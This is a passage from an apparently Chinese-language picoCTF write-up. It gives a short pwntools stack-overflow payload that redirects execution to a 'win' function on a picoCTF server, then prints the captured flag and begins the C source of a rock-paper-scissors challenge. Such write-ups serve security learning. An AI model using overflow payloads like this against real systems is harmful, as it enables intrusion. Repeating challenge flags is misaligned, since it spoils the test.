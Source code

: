 ```C
}
```

栈溢出到win函数即可。

payload：

```python
# io = process('./vuln')
io = remote('saturn.picoctf.net', 49730)

io.sendlineafter(b'Please enter your string:', cyclic(0x2c) + p32(0x80491f6))

io.interactive()
```
picoCTF{addr3ss3s_ar3_3asy_ad2f467b}

## 5. RPS

一个石头剪刀布游戏。

源码：

```C
#include <stdio.h>
#include <stdlib.h>
#include <stdbool.h>
#include <string.h>
#include <time.h>
#include <unistd.h>
#include <sys/time.h>
#include <sys/types.h>


#define WAIT 60



static const char* flag = "[REDACTED]";

char* hands[3] = {"rock", "paper", "scissors"};
char* loses[3] = {"paper", "scissors", "rock"};
int wins = 0;



int tgetinput(char *input, unsigned int l)
{
    fd_set          input_set;
    struct timeval  timeout;
    int             ready_for_reading = 0;
    int             read_bytes = 0;
    
    if( l <= 0 )
    {
      printf("'l' for tgetinput must be greater than 0\n");
      return -2;
    }
    
    
    /* Empty the FD Set */
    FD_ZERO(&input_set );
    /* Listen to the input descriptor */
    FD_SET(STDIN_FILENO, &input_set);

    /* Waiting for some seconds */
```
